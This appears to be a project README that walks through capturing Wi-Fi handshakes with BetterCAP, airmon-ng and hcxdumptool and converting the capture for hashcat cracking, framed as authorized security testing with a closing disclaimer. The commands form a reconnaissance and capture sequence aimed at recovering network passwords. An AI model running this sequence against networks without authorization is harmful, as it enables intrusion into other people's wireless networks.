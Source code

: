 # Wi-Fi Handshake Capture and Analysis

## Description
This project outlines the steps to capture Wi-Fi handshakes using BetterCAP and analyze them using hcxtools. The tools are intended for ethical security testing and should only be used with proper authorization.

## Prerequisites
- Linux system
- Wireless network interface in monitor mode
- Permissions to install and run tools (sudo access)

## Installation

### 1. Install BetterCAP

```bash
sudo apt update
sudo apt install bettercap
```

### 2. Check USB Devices

```bash
lsusb
```

### 3. Check Wireless Interface

```bash
iwconfig
```

### 4. Enable Monitor Mode with airmon-ng

```bash
sudo airmon-ng start <your_interface>
```
Replace <your_interface> with your wireless interface name, e.g., wlan0


### 5. Start BetterCAP

```bash

sudo bettercap
```

### 6. Set Wireless Interface in BetterCAP

```bash
set wifi.interface wlan0mon
```

### 7. Set Capture Method to File (Handshake)

```bash
set wifi.handshake file
```

### 8. Enable Wi-Fi Reconnaissance

```bash
wifi.recon on
```

### 9. Show Discovered Wi-Fi Networks

```bash
wifi.show
```

### 10. Show Associated Clients

```bash
wifi.assoc
```

### 11. Turn off Wi-Fi Reconnaissance and Exit BetterCAP

```bash
wifi.recon off
exit
```

### 12. Install hcxtools

```bash
sudo apt install hcxtools
```

### 13. Capture Handshakes with hcxdumptool

```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status
```
 Replace `wlan0mon` with your monitored interface


### 14. Convert Captured File for hashcat

```bash

sudo hcxpcaptool -z test.16800 -o hashcat.hccapx capture.pcapng
```

## Disclaimer

Unauthorized access to Wi-Fi networks or attempts to crack passwords are illegal and unethical. Always comply with applicable laws and ethical standards.

